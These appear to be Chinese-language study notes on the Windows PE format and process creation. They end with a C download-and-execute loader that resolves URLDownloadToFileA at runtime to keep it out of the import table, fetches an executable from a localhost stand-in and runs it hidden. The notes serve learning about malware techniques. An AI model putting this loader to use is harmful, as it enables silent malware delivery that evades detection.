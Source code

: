 ## PE的结构

[PE Format](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format)

可执行文件，起始为MZ头，二进制 3CH处记录了文件起始位置的偏移量，PE标志为`50 45 00 00`，创建时间为timestamp格式。

---



## DLL

WinExec事实上执行[CreateProcess](https://docs.microsoft.com/en-us/windows/win32/procthread/creating-processes)

```cpp
main(int argc, TCHAR* argv[]);
argument_counter argument_vector
表示命令行以空格分隔参数，如果参数内需要空格可以加引号。
```

```c
if (!CreateProcess(NULL,   // No module name (use command line)
        argv[1],        // Command line
        NULL,           // Process handle not inheritable
        NULL,           // Thread handle not inheritable
        FALSE,          // Set handle inheritance to FALSE
        0,              // No creation flags
        NULL,           // Use parent's environment block
        NULL,           // Use parent's starting directory 
        &si,            // Pointer to STARTUPINFO structure
        &pi)           // Pointer to PROCESS_INFORMATION structure
        )
```

CreateProcess完成了动态链接，并跳到entrypoint运行下一步。即完成了父进程向子进程的调用。

```c
// 代码功能：修改shellcode功能为下载执行器，即下载一个可执行文件，然后再运行
#include <urlmon.h>
#include <Windows.h>

typedef HRESULT (WINAPI * MY_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);

int main() {
	// 调用函数不会导入表显示有URLDownloadToFile函数。
	// urlmon.dll默认不加载，所以需要手动先行加载
    // 要获得函数地址，dll必须在内存中，kernel32是默认加载的，提供LoadLibrary函数
	HMODULE hurlmod = LoadLibrary("urlmon.dll");
	MY_PROC function_ptr = (MY_PROC)GetProcAddress(hurlmod, "URLDownloadToFileA");
    // 遍历导出表也可以实现GetProcAddress相同的效果
	// URLDownloadToFile <=> function_ptr
	function_ptr(
		NULL,
		"http://localhost:8000/Project1.exe",
		"a.exe",
		0,
		NULL
	);
	WinExec("a.exe", SW_HIDE);
}
```







